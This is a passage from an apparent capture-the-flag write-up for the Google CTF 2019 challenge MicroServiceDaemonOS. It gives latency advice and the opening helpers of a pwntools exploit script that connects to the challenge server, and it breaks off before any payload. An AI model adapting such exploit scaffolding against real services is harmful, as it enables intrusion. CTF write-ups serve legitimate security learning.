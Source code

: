 ![Latency around the world](/assets/images/googlectf2019/ping_times.png) 

Log into your cloud provider, start up an instance in Paris, and you've got up to a factor of 60 speed up. For me this was enough to bring the run time down to 5-10 minutes.

### The script

```python
from pwn import *

PAGE_SIZE = 0x1000

p = remote("microservicedaemonos.ctfcompetition.com", 1337)
# p = process("./MicroServiceDaemonOS")

def command(s):
    p.recvuntil("Provide command: ")
    p.sendline(s)


def add_trustlet(type_):
    assert 0 <= type_ <= 1
    command("l")
    trustlet_type("%d" % type_)
    log.info("Added trustlet type %d" % type_)


def trustlet_type(s):
    p.recvuntil("Provide type of trustlet: ")
```